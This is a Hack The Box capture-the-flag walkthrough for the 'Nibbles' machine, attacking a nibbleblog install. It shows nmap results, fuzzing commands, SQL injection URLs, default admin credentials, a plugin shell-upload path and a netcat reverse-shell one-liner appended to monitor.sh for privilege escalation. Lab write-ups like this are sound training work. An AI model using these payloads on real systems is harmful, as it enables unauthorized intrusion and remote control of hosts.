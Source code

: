 ```yaml
---
title: "Nibbles"
date: 2024-07-20
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "nibbles", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


OS: Linux 
Difficulty: Easy

## Enumeration

### Nmap

```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### HTTP

![screenshot](/assets/images/nibbles1.png)

![screenshot](/assets/images/nibbles2.png)

#### `/nibbleblog/`

![screenshot](/assets/images/nibbles3.png)

![screenshot](/assets/images/nibbles4.png)

####  `/nibbleblog/admin/`

![screenshot](/assets/images/nibbles5.png)

http://10.10.10.75/nibbleblog/plugins/about/plugin.bit

![screenshot](/assets/images/nibbles6.png)

>nibbleblog 3.7

#### Fuzzing

```sh
# subdomain
ffuf -u http://10.10.10.75 -H "Host: FUZZ.usage.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

# dir
feroxbuster -u http://10.10.10.75/nibbleblog -C 404 -A -e -S 0 --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -o nibbleblog_ferox
```

http://10.10.10.75/nibbleblog/content/private/users.xml

![screenshot](/assets/images/nibbles8.png)

## Foothold

### SQLi

https://www.exploit-db.com/exploits/35865

![screenshot](/assets/images/nibbles7.png)

```sh
# original 1
http://10.10.10.75/nibbleblog/index.php?page=admin' OR 1=1 -- //

# URL encoded
http://10.10.10.75/nibbleblog/index.php?page=admin'%20OR%201=1%20--%20//

# URL encoded 2 
http://10.10.10.75/nibbleblog/index.php?page=admin'%20OR%201=1;--%20-

# original 2
http://10.10.10.75/nibbleblog/index.php?idpost=admin%20OR%201=1%20--%20/

```
### Admin portal

![screenshot](/assets/images/nibbles10.png)

![screenshot](/assets/images/nibbles9.png)

>`admin : nibbles`

![screenshot](/assets/images/nibbles11.png)

nibbleblog version 4.0.3

### https://github.com/hadrian3689/nibbleblog_4.0.3

![screenshot](/assets/images/nibbles12.png)

https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html

![screenshot](/assets/images/nibbles13.png)

Upload the shell to Plugins : My Image

![screenshot](/assets/images/nibbles14.png)

Navigate to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/

![screenshot](/assets/images/nibbles15.png)

Click Image.php

![screenshot](/assets/images/nibbles16.png)

## Privilege Escalation

### Enumeration

![screenshot](/assets/images/nibbles17.png)

### Attempts

```sh
# Inserting a reverse shell one-liner in a script
echo >> monitor.sh

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4444 >/tmp/f" >> monitor.sh
```

![screenshot](/assets/images/nibbles18.png)

![screenshot](/assets/images/nibbles19.png)
